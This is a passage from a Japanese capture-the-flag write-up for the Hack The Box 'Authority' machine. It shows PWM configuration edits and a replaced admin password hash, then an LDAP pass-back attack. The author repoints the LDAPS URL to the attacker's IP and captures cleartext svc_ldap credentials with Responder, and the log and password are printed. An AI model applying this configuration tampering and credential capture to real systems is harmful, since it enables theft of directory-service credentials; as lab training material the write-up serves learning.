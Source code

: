 書き換え箇所、変更前
```sh
        <setting key="pwmAdmin.queryMatch" modifyTime="2022-08-11T01:46:23Z" syntax="USER_PERMISSION" syntaxVersion="2">
            <label>Modules ⇨ Authenticated ⇨ Administration ⇨ Administrator Permission</label>
            <value>{"type":"ldapUser","ldapBase":"CN=svc_pwm,CN=Users,DC=authority,DC=htb"}</value>
```

変更後
- ユーザー名をsvc_pwmから、htb-stuに変更
```sh
        <setting key="pwmAdmin.queryMatch" modifyTime="2022-08-11T01:46:23Z" syntax="USER_PERMISSION" syntaxVersion="2">
            <label>Modules ⇨ Authenticated ⇨ Administration ⇨ Administrator Permission</label>
            <value>{"type":"ldapUser","ldapBase":"CN=htb-stu,CN=Users,DC=authority,DC=htb"}</value>
```

計算したhellohelloのハッシュ値
```sh
        <property key="configPasswordHash">$2a$08$.h6mdPfQMXtu5swYIaVZzOaCKss/5KYxuPESmisZXAD3M37PX0tZi</property>
```

てっきり上の作業で、ユーザーが作成されて、ログインできると思っていたが、できない
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ ldapsearch -x -H ldap://10.129.182.140 \
  -D "authority\\htb-stu" \
  -w 'hellohello' \   
  -b "DC=authority,DC=htb" \
  "(objectClass=*)"
ldap_bind: Invalid credentials (49)
        additional info: 80090308: LdapErr: DSID-0C090439, comment: AcceptSecurityContext error, data 52e, v4563

```

戦略を変え、IPを書き換える
- ここのldapsのURLを攻撃者のIPにする
- そして、responderを立ち上げておく
![](https://i.imgur.com/sWxqn50.png)


そして、自動的にログアウトし、ログインすると、Responderにsvc_ldapの認証情報が送られてくる
 svc_ldap : lDaP_1n_th3_cle4r!
- なんか、パスバック攻撃に似ている？
	- LDAPのアドレスを攻撃者のIPに書き換えて、そこに認証情報を飛ばすという意味で。
```sh

[+] Listening for events...                                                                                                                                                    

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.59.172
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.59.172
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.59.172
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.59.172
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
```

[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available